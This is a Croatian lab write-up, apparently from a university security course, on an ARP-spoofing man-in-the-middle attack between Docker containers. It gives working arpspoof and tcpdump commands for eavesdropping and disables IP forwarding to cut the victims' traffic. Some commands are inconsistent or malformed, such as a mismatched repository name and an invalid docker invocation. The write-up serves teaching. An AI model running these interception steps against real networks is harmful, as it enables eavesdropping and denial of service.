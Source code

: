 # 1.LABORATORIJSKA VJEŽBA

## ****Man-in-the-middle attack (ARP spoofing)****

### ZADATAK

Realizirati man in the middle napad iskorištavanjem ranjivosti ARP(*Adress Resolution Protocol*) protokola. Za ovu realizaciju smo koristili 3 virtualizirana Docker računala (eng. container): žrtve **station-1** i **station-2**
 te napadača: **evil-station**

Zadatak je odrađen u Windows terminalu koristeći WSL (Windows Subsystem for Linux).

1. pozicioniramo se u odgovarajući direktorij i kloniramo direktorij:

`git clone [https://github.com/mcagalj/SRP-2022-23](https://github.com/mcagalj/SRP-2022-23)`

1. ulazak u novi direktorij pomoću naredbe cd

`$ cd SRP-2021-22/arp-spoofing/`

`$ cd SRP-2021-22/arp-spoofing/`

- u direktoriju se nalaze već gotove skripte [start.sh](http://start.sh/) i [stop.sh](http://stop.sh/) koje služe  za pokretanje/zaustavljanje virtualiziranog mrežnog scenarija
- koristimo naredbu code za provjeru

### NAREDBE I ALATI KORIŠTENI(LINUX)

### pokretanje i zaustavljanje virtualiziranog mrežnog scenarija

`$ ./start.sh`

`$ ./stop.sh`

### pokretanje

`$ docker ps exec -it sh`

### provjera(**IP adrese i adrese mrežnog uređaja)**

`$ ifconfig -a`

- pratimo je li napad uspješno izveden

### provjera je li station-2 na istoj mreži

`$ ping station-2`

- to je bilo istinito pa mozemo pokrenuti shell station-2

### pokretanje shella u drugom kontejneru

`$ docker exec -it station-2 sh`

### **Ostvarivanje komunikacije između station-1 i station-2**

`$ netcat -lp 9000`

- potrebno je znati IP adresu i port za ovakav način komunikacije

`$ netcat station-1 9000`

### pokretanje napadača i napad

`$ docker exec -it evil-station sh`

`$ arpspoof -t station-1 station-2`

- pokrečemo napadača
- arpspoof (narušava integritet, lažno predstavljanje)

`$ tcpdump`

- pratimo razgovor između station-1 i station-2

`$ echo 0 > /proc/sys/net/ipv4/ip_forward`

- zaustavljamo prosljeđivanje poruka tj.zaustavljamo promet između station-1 i station-2 (narušen availability)

![ARP_spoofing.png](1%20LABORATORIJSKA%20VJEZ%CC%8CBA%20205ded52f17d42e7a52f4bae1b52b5d6/ARP_spoofing.png)